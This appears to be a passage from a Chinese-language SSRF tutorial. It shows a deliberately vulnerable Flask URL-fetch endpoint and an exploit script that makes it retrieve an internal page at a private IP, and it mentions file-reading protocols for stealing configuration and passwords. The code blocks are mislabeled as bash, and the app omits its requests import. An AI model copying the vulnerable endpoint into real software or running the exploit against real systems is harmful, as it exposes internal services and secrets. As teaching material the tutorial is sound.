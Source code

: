 ```bash
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/fetch_url', methods=['POST'])
def fetch_url():
    url = request.form.get('url')
    try:
        response = requests.get(url)
        return jsonify({'status': 'success', 'content': response.text})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

if __name__ == '__main__':
    app.run(debug=True)
```

1.  运行应用：`python app.py`
2.  此时，应用程序应该在`http://127.0.0.1:5000/`运行，并提供一个`/fetch_url`端点，用于接收 URL 参数。

现在，我们来模拟利用这个 SSRF 漏洞访问内部 Web 服务器。假设内部 Web 服务器的 IP 地址为`192.168.1.100`，我们想要访问的敏感页面路径为`/secret_page`。

1.  安装`requests`库：`pip install requests`
2.  创建一个名为`exploit.py`的文件，然后添加以下代码：

```bash
import requests

def exploit_ssrf(url):
    target_url = "http://192.168.1.100:80/secret_page"
    # 这里我们使用HTTP POST请求，将目标URL作为表单数据发送
    payload = {'url': target_url}
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Success: Retrieved content from internal web server")
        print(response.text)
    else:
        print("Failed: Unable to retrieve content from internal web server")

if __name__ == "__main__":
    # 替换为你在步骤 3 中找到的 SSRF 漏洞 URL
    ssrf_url = "http://127.0.0.1:5000/fetch_url"
    exploit_ssrf(ssrf_url)
```

1.  运行脚本：`python exploit.py`
2.  如果一切正常，你应该能够看到从内部 Web 服务器获取的敏感页面内容。

通过 SSRF 进行文件读取：

SSRF 可以利用不同的协议（如`file`、`ldap`、`zlib`、`phar`、`tar`、`rar`用于 PHP，`jar` 用于 Java）来读取任意文件。这可以用于代码审计、访问配置文件或检索密码。

